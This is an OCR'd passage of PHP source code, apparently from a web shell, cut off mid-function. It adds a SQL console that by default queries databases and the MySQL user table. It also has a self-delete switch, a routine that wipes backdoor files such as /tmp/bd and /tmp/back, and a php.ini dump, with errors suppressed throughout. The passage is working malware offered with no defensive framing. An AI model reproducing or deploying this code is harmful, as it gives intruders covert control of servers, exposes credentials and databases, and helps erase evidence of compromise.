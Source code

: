 echo in('hidden','db_port',0,$_POST['db_port']);
 echo in('hidden','mysql_l',0,$_POST['mysql_l']);
 echo in('hidden','mysql_p',0,$_POST['mysql_p']);
 echo in('hidden','mysql_db',0,$_POST['mysql_db']);
 echo in('hidden','cmd',0,'db_query');
 echo "&lt;div align=center&gt;&lt;textarea cols=65 rows=10 name=db_query&gt;".(!empty($_POST['db_query'])?($_POST['db_query']):("SHOW DATABASES;\nSELECT * FROM user;"))."&lt;/textarea&gt;&lt;br&gt;&lt;input type=submit name=submit value=\" Run SQL query \"&gt;&lt;/div&gt;&lt;br&gt;&lt;br&gt;";
 echo "&lt;/form&gt;";
 echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;"; die();
 }
if(isset($_GET['delete']))
 {
   @unlink(@substr(@strrchr($_SERVER['PHP_SELF'],"/"),1));
 }
if(isset($_GET['tmp']))
 {
   @unlink("/tmp/bdpl");
   @unlink("/tmp/back");
   @unlink("/tmp/bd");
   @unlink("/tmp/bd.c");
   @unlink("/tmp/dp");
   @unlink("/tmp/dpc");
   @unlink("/tmp/dpc.c");
 }
if(isset($_GET['phpini']))
{
echo $head;
function U_value($value)
 {
 if ($value == '') return '&lt;i&gt;no value&lt;/i&gt;';
 if (@is_bool($value)) return $value ? 'TRUE' : 'FALSE';
 if ($value === null) return 'NULL';
 if (@is_object($value)) $value = (array) $value;
 if (@is_array($value))
 {
 @ob_start();
 print_r($value);
 $value = @ob_get_contents();
 @ob_end_clean();
 }
 return U_wordwrap((string) $value);
 }
function U_wordwrap($str)
 {
 $str = @wordwrap(@htmlspecialchars($str), 100, '&lt;wbr /&gt;', true);
 return @preg_replace('!(&[^;]*)&lt;wbr /&gt;([^;]*;)!', '$1$2&lt;wbr /&gt;', $str);
 }
if (@function_exists('ini_get_all'))
 {
 $r = '';
 echo '&lt;table width=100%&gt;', '&lt;tr&gt;&lt;td bgcolor=#cccccc&gt;&lt;font face=Verdana size=-2 color=red&gt;&lt;div align=center&gt;&lt;b&gt;Directive&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;td bgcolor=#cccccc&gt;&lt;font face=Verdana size=-2 color=red&gt;&lt;div align=center&gt;&lt;b&gt;Local Value&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;td bgcolor=#cccccc&gt;&lt;font face=Verdana size=-2 color=red&gt;&lt;div align=center&gt;&lt;b&gt;Master Value&lt;/b&gt;&lt;/div&gt;&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;';
 foreach (@ini_get_all() as $key=&gt;$value)
  {